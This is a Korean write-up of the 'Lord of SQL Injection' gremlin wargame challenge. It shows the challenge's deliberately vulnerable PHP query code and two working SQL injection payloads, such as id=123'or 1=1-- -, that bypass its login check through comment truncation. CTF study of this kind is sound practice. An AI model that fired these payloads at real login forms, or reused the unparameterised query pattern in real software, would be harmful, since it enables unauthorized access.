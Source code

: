 Lord of SQL Injection No.1 - gremlin
=============
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
위 코드에서 알수 있는 것
-------------

4번째와 5번째줄 if문의 preg_match에서 id와 pw에 . 이나 ()가 들어가있으며 No Hack ~_~라고 뜨고 문제 풀이에 실패하게되는걸 알수있다.

DB에 저장되있는 값인 $result[id]에 어떠한 값이라도 들어가 있으면 문제를 풀수있다.

문제풀이 법
-------------
1. http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=123'or 1=1-- -

그냥 읽어보자면 아이디의 값이 123이거나 1=1 곧 참이라는 것이다.

뒤에 -- -는 뒤에 올 pw 및 다른 값들을 입력하지 않아도 되도록 주석처리를 하는것이다.

  *주석처리 법 --%20(%20은 공백), #,/**/

  id=123 or 1=1-- -이 아니라 id=123' 싱글 쿼터로 닫아 줌으로써 하나의  id 값을 마무리해주면 sql문을 입력할 수 있게되는데

  or연산은 앞에 값이 틀리더라도 뒤의 값이 참이면 참이게 되는 연산으로 or연산을 써줌으로 $result[id]가 참이 되어 문제가 풀리게된다.

2. http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=123'or%20'123'%20-- -

이번 방법은 위의 방법과 동일하지만 '0'이 아닌 어떠한 문자열이 들어오게되면 이 값은 참으로 받아들여지게되어 문제가 풀리게된다.
